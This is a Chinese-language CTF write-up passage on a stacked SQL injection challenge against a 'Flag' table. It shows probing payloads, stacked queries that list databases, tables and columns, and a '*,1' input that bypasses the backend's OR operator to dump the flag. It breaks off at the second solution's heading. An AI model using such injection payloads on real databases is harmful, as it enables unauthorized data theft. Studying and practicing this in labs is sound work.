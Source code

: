 判断注入类型<br />`1'`<br />回显结果<br />![image.png](https://cdn.nlark.com/yuque/0/2023/png/36016220/1698664852183-4cfdd7bb-3ea9-4ce9-be1c-96f1fa803094.png#averageHue=%23f6f4f2&clientId=u0afe607f-2d1f-4&from=paste&height=150&id=uccc2f919&originHeight=187&originWidth=872&originalType=binary&ratio=1.25&rotation=0&showTitle=false&size=21241&status=done&style=none&taskId=ub4f7196d-1f32-4f95-9828-3ef2dcffc4d&title=&width=697.6)
> 不是字符型SQL注入

`1`<br />回显结果<br />![image.png](https://cdn.nlark.com/yuque/0/2023/png/36016220/1698664998585-28a658de-ffeb-4417-8a45-efb1eb80f4a8.png#averageHue=%23f7f6f4&clientId=u0afe607f-2d1f-4&from=paste&height=186&id=u4da01599&originHeight=232&originWidth=876&originalType=binary&ratio=1.25&rotation=0&showTitle=false&size=24755&status=done&style=none&taskId=uaa1a1096-cd48-4975-9a5a-9cd4a963bf0&title=&width=700.8)
> 数字型SQL注入

查所有数据库,采用堆叠注入<br />`1;show databases;`<br />![image.png](https://cdn.nlark.com/yuque/0/2023/png/36016220/1698665929401-d1ed791e-3482-437f-922e-d2013b67d69e.png#averageHue=%23f7f6f4&clientId=u0afe607f-2d1f-4&from=paste&height=175&id=u4356b753&originHeight=219&originWidth=1725&originalType=binary&ratio=1.25&rotation=0&showTitle=false&size=36187&status=done&style=none&taskId=u11f7d0dc-8874-456c-b792-bd23c079d14&title=&width=1380)<br />查看所有数据表<br />`1;show tables;`<br />![image.png](https://cdn.nlark.com/yuque/0/2023/png/36016220/1698733249276-b42032e3-6c64-471b-a9de-6a02dafdec20.png#averageHue=%23f9f8f7&clientId=u250485b3-3c63-4&from=paste&height=138&id=u666a75c4&originHeight=172&originWidth=748&originalType=binary&ratio=1.25&rotation=0&showTitle=false&size=10564&status=done&style=none&taskId=ue2f2e90a-b7c3-402f-8ec9-55e97ce2274&title=&width=598.4)<br />尝试爆Flag数据表的字段<br />`1;show columns from Flag;`<br />![image.png](https://cdn.nlark.com/yuque/0/2023/png/36016220/1698736004092-1706d5e8-718a-4c60-b84c-d8138080676f.png#averageHue=%23f5f3f1&clientId=u250485b3-3c63-4&from=paste&height=99&id=udd705357&originHeight=124&originWidth=506&originalType=binary&ratio=1.25&rotation=0&showTitle=false&size=6587&status=done&style=none&taskId=uc246e44f-a815-4917-8a0b-541bf4ebe3c&title=&width=404.8)
> 回显错误

到这里，大佬们直接猜出了后端语句<br />`select $_GET['query'] || flag from Flag`<br />我直接好家伙，大佬果然是大佬<br />||就是SQL里面的逻辑或运算符
<a name="ozCCH"></a>
#### **第一种解法 添加新列绕过逻辑或运算符：**
`***,1**`<br />那么传到后端语句就是<br />`select *,1 || flag from Flag`<br />这里我问了下文心一言，看完我也理解了
> 这段SQL代码的含义是：从Flag表中选择所有的列，以及由列flag的值与数字1进行连接生成的新列。
> 具体来说：
> select *：选择所有的列。
> 1 || flag：这是SQL中的字符串连接操作。它将数字1与flag列的值进行连接。对于每一行，都会生成一个新的字符串，这个字符串是数字1后跟着flag列的值。如果flag列的值本身是一个字符串，那么这两个字符串将被连接起来。
> from Flag：从Flag表中选择数据。
> 因此，这段代码的输出结果将包含Flag表的所有列，以及一个名为“1”的列，该列的值是flag列的值与数字1的连接。

大致意思，就是查看数据表Flag的所有列内容，然后添加了一个由列flag的值与数字1进行连接生成的新列，这个新的列名就叫1，那么猜测或者说就是flag被过滤，我们还能查到flag列的值，因为flag的值复制到了新的列1。<br />`*,0`<br />![image.png](https://cdn.nlark.com/yuque/0/2023/png/36016220/1698737425920-147348c3-d409-45b9-9b64-209c06dd4d8a.png#averageHue=%23f8f7f6&clientId=u250485b3-3c63-4&from=paste&height=138&id=u45a419d4&originHeight=172&originWidth=896&originalType=binary&ratio=1.25&rotation=0&showTitle=false&size=12977&status=done&style=none&taskId=ub124435b-76cb-4bd6-adb0-d78454b724a&title=&width=716.8)<br />可以明显看到新的列名0和flag的值连接起来了<br />`*,1`<br />![image.png](https://cdn.nlark.com/yuque/0/2023/png/36016220/1698737517157-c053430c-0783-483f-88da-60128f6c574b.png#averageHue=%23f9f8f7&clientId=u250485b3-3c63-4&from=paste&height=134&id=udcd5aa28&originHeight=168&originWidth=872&originalType=binary&ratio=1.25&rotation=0&showTitle=false&size=11928&status=done&style=none&taskId=u24a871c4-5ee0-488d-ac55-0c5553132bc&title=&width=697.6)<br />对吧，新列名为1<br />`*,2`<br />![image.png](https://cdn.nlark.com/yuque/0/2023/png/36016220/1698737591497-1936851a-330a-466f-a205-11b2f7e39480.png#averageHue=%23f8f7f6&clientId=u250485b3-3c63-4&from=paste&height=132&id=uc69c71a0&originHeight=165&originWidth=900&originalType=binary&ratio=1.25&rotation=0&showTitle=false&size=12687&status=done&style=none&taskId=ua5ebc9c4-61a9-45ad-8be0-9b8ba35a996&title=&width=720)<br />还是为1，所有还可以看出Flag数据表的列只能是两个
<a name="Dxhjs"></a>
#### **第二种解法 改逻辑或运算符为字符串连接符：**